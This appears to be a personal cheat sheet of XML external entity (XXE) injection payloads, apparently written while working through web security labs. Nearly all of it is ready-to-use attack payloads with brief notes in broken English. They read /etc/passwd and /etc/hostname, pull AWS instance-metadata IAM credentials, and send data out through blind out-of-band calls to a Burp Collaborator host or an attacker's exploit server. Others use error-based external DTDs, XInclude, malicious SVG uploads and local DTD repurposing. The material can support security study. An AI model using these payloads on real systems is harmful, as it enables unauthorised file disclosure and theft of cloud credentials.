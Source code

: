 1. Normal XXE flow
 <!DOCTYPE tes[ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>       => i take it under the xml code
   &xxe;      => i replace it between the product id tab

2.  using with AWS service
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
&xxe;       => i replace it between the product id tab

3.  Blind xxe injection
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://7pxg0praqq87eo64m0srqy2f369xxnlc.oastify.com"> ]>    => http nout mar burp collectrabtor ka har
&xxe;     => i replace it between the product id tab

4.  blind xxe with error message
In exploit server we prepare like this
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;

and then we take this exploit server link

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-Exploitserver-URL"> %xxe;]>   #Done!

5.  Classic XXE attack
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
## I replace this payload to product id


6.  * XXE image file upload vlun
# firstly we upload svg format picture and then go to burp and replace with this payload
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>

7.   Exploiting XXE to retrieve data by repurposing a local DTD
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
# I replaced this payload to parmeter 

-------------------------------------------------------------------------------


*  Conculation *

- sometimes we should not change param from &xxe;   to nothing => cause something entilaty was banned


